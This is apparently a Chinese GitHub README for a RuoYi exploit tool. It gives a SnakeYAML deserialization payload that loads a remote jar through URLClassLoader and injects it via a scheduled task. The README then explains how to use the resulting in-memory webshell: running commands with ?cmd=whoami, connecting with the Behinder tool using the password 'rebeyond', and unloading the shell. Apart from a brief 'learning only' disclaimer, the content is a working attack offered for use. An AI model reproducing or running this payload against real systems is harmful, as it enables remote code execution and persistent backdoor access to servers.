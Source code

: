 # yaml-payload-for-ruoyi
**注入方法：**  
把jar放到系统可以访问的地方，在定时任务创建新的定时任务，再立即执行一次即可
```java
org.yaml.snakeyaml.Yaml.load('!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["you_url_of_jar"]]]]')
```
![image-20211127160033485](http://image.lz2y.top/image-20211127160033485.png)

若依 snakeyaml 反序列化漏洞注入内存马

**RuoYi**  
1. 直接执行命令：?cmd=whoami
2. 连接冰蝎：/login?cmd=1（cmd不为空即可），密码为rebeyond，使用冰蝎正常连接即可
3. 卸载内存马：?cmd=delete

![image](https://user-images.githubusercontent.com/55266300/140618949-9973ce81-9308-4bc3-9dd7-286c7281ce33.png)
**RuoYi Vue**  

1. 直接执行命令：`/dev-api/?cmd=whoami`
2. 连接冰蝎：暂不支持
3. 卸载内存马：`/dev-api/?cmd=delete`



**项目仅供学习使用，任何未授权检测造成的直接或者间接的后果及损失，均由使用者本人负责**

